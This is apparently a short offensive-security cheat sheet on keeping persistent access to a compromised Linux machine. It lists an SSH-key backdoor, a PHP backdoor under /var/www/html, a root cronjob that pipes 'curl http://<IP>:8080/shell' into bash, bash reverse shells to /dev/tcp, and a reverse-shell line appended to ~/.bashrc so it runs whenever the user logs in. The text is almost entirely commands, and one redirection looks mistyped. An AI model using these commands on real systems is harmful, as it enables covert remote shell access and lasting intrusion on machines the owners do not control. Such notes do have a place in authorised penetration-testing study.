 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/home/.ssh'
        -- chmod 600 id_rsa               	  Gives permissions
-- ssh -i id_rsa user@ip                    Use BackDoor

				PHP BackDoor
-- setup netcat
-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php

				Cronjob BackDoor
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash 
   
- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080
--listen with netcat			   nc -nvlp <port>

				.bashrc
 --   If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
-- you dont know when the user will log in so always have netcat listening
    
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc

				Links
-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
